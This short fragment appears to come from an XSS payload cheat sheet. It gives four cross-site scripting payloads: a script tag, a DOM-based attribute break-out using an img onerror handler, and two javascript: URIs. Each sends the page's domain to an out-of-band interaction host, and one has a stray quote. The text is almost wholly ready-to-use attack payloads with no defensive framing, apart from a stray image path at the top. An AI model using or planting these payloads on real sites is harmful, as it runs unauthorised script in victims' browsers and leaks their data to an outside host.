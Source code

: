 ___


```html
<script>location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;</script>
```

### DOM Based XSS


```html
#"><img src="x" onerror="location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;">
```


```
javascript:location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain
```

`javascript:fetch('http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain')`

